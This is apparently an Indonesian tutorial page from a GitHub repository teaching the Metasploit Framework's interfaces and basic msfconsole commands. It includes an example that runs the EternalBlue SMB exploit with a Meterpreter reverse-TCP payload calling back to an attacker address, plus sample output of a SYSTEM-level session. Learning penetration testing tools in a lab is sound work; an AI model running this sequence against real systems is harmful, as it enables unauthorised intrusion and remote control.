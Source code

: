 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit-Framework/blob/main/resource/Struktur%20Folder%20dan%20File%20Penting%20di%20Metasploit%20Framework.md">Struktur Folder dan File Penting di Metasploit Framework</a>
</p>

# Antarmuka Metasploit Framework

`Metasploit Framework` memiliki beberapa antarmuka yang bisa digunakan oleh user, mulai dari CLI (Command Line Interface) hingga GUI (Graphical User Interface). Namun, yang paling sering digunakan dan paling powerful adalah CLI melalui `msfconsole`.

Jenis-jenis Antarmuka Metasploit:

| Antarmuka | Deskripsi |
|:--:|:--:|
| `msfconsole` | Antarmuka utama berbasis CLI, digunakan untuk menjalankan `modul`, `payload`, dan `eksploitasi`. |
| `msfvenom` | CLI untuk membuat payload secara manual. |
| [Armitage](https://www.offsec.com/metasploit-unleashed/armitage/) (GUI) | Antarmuka grafis berbasis Java (sudah jarang digunakan). |
| [Metasploit Pro](https://docs.rapid7.com/metasploit/) (GUI berbayar) | Antarmuka komersial dengan fitur profesional seperti laporan dan automasi. |

## A. MSFconsole – Antarmuka Utama Metasploit

1. Menjalankan MSFconsole:

   ```
   msfconsole
   ```

   Saat dijalankan, akan muncul banner:

   ```
   =[ metasploit v6.4.56-dev                          ]
   + -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
   + -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
   + -- --=[ 9 evasion                                       ]

   Metasploit Documentation: https://docs.metasploit.com/
   ```

2. Struktur Dasar Perintah di MSFconsole

   | Perintah | Fungsi |
   |:--:|:--:|
   | `search <NAMA>` | Mencari `exploit`, `payload`, `dll`. |
   | `use <MODUL>` | Memilih modul yang akan digunakan. |
   | `info` | Menampilkan detail tentang modul yang sedang digunakan. |
   | `show options` | Melihat konfigurasi parameter modul. |
   | `set <PARAMETER> <NILAI>` | Mengatur nilai parameter modul. |
   | `exploit` atau `run` | Menjalankan exploit atau modul. |

3. Contoh Penggunaan MSFconsole:

   ```
   search windows/smb
   use exploit/windows/smb/ms17_010_eternalblue
   show options
   set RHOSTS <IP_TARGET>
   set LHOST <IP_ATTACKER>
   set PAYLOAD windows/meterpreter/reverse_tcp
   exploit
   ```

## B. Fitur Tambahan di MSFconsole

| Fitur | Penjelasan |
|:--:|:--:|
| Tab Completion | Tekan `Tab` untuk melengkapi modul atau perintah otomatis. |
| Command History | Gunakan panah atas `(↑)` untuk melihat perintah sebelumnya. |
| Background Sessions | Gunakan background untuk menyimpan sesi eksploitasi ke background. |
| Session Interaction | Gunakan `sessions -i <ID>` untuk membuka kembali sesi eksploitasi. |

## C. Contoh Output dari MSFconsole:

```
msf6 > sessions

Active sessions
===============

Id  Name  Type                   Information               Connection
--  ----  ----                   -----------               ----------
1         meterpreter x86/win32  NT AUTHORITY\SYSTEM       192.168.1.10 -> 192.168.1.5
```

## D. Kesimpulan

`msfconsole` adalah pusat kendali utama dalam Metasploit. Dengan memahami perintah-perintah dasar dan navigasi antarmukanya, kamu bisa mengelola modul eksploitasi, payload, dan sesi secara efisien.

> Tips: Latih penggunaan msfconsole di lab lokal atau VM agar terbiasa sebelum digunakan dalam skenario nyata.

<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit-Framework/blob/main/resource/Perintah%20Dasar%20MSFconsole.md">Perintah Dasar MSFconsole</a>
</p>
